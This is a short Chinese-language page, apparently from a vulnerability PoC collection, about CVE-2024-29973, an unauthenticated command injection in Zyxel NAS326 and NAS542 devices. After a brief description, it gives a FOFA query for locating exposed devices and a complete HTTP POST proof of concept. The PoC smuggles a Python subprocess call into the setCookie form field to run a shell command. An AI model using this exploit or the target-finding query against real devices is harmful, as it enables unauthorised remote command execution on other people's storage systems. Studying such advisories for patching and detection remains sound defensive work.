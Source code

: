 ## Zyxel-NAS设备setCookie未授权命令注入漏洞(CVE-2024-29973)

Zyxel NAS326 V5.21(AAZF.17)C0之前版本、NAS542 V5.21(ABAG.14)C0之前版本存在操作系统命令注入漏洞，该漏洞源于setCookie参数中存在命令注入漏洞，从而导致未经身份验证的远程攻击者可通过HTTP POST请求来执行某些操作系统 (OS) 命令。

## fofa

```
body="/cmd,/ck6fup6/user_grp_cgi/cgi_modify_userinfo"
```

## poc

```
POST /cmd,/simZysh/register_main/setCookie HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryHHaZAYecVOf5sfa6
 
------WebKitFormBoundaryHHaZAYecVOf5sfa6
Content-Disposition: form-data; name="c0"
 
storage_ext_cgi CGIGetExtStoInfo None) and False or __import__("subprocess").check_output("id", shell=True)#
------WebKitFormBoundaryHHaZAYecVOf5sfa6--
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406211838104.png)